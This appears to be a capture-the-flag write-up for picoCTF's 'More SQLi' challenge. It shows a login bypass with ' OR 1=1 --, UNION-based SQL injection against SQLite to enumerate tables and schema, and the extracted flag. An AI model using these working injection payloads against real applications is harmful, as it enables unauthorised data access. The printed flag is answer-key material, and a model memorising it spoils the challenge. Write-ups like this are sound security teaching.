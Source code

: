 # Hey there!

Today, I will be solving the More SQLi (Medium) Challenge 

## Initial Reconnaissance

When i put random characters in the username and password fields, the application spat out the following SQL query to give me some sort of hint:

```sql
SELECT id FROM users WHERE password = 'd' AND username = 'ADMIN'
```

## Basic SQLi Exploit

Based on the revealed info, I made a simple SQL injection exploit for the password field:

```sql
' OR 1=1 --
```
![Capture2](https://github.com/user-attachments/assets/4e430246-058c-4aa4-91ad-5f719c4cbd56)

Which then led me to this page,


![image](https://github.com/user-attachments/assets/0e7d8e7f-d8e0-40d8-a3c6-d6b4bc28cd63)


*Screenshot of the page accessed after successful SQL injection*

## UNION-based Injection

Judging by that there are 3 columns I ran a UNION SELECT like so:
```sql
'UNION SELECT 1,2,3 --
```

This approach worked and showed me the following results:
![image](https://github.com/user-attachments/assets/a87000f2-16e1-4965-b849-ddf94cdbacfe)


## Database Identification

At first, I couldn't figure out what Database the challenge was using so I decided to check out the hint that said "SQLiLite" which suggested that it was an SQLite installation.

## SQLite Exploitation

With this information, I consulted the SQLite injection cheatsheet:
[SQLite Injection Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

I then executed this command to retrieve the SQLite version:

```sql
'UNION SELECT 1,sqlite_version(),3 --
```

This query returned the SQLite version as shown here:

![image](https://github.com/user-attachments/assets/a1b52082-9b47-46e6-b8e1-998dbc40981f)


*Figure 2: Screenshot showing the SQLite version*

## Table Enumeration

To enumerate the database tables, I used:

```sql
'UNION SELECT 1,(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),3 --
```

With this, I found a table named `more_table`, as the text at the beginning of the welcome page said so.

![image](https://github.com/user-attachments/assets/931f2eae-81c1-4e09-9e20-87e4f4924176)


*Figure 3: Screenshot showing the result of table enumeration*

## Table Structure

To examine the structure of `more_table`, I executed:

```sql
'UNION SELECT 1,(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table'),3 --
```

This query provided us with the table's schema.

![image](https://github.com/user-attachments/assets/86cb12a4-712f-4448-8060-c4167449d51a)

*Figure 4: Screenshot showing the structure of 'more_table'*

## Flag Extraction

Finally, to extract the flag, I ran:

```sql
'UNION SELECT 1,(SELECT flag FROM more_table),3 --
```

This query successfully retrieved the flag:

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}
```

![image](https://github.com/user-attachments/assets/df78bd9a-72da-455e-a1d5-5267ca05af4a)


*Figure 5: Screenshot showing the extracted flag*

Thanks for reading this writeup, see you later!
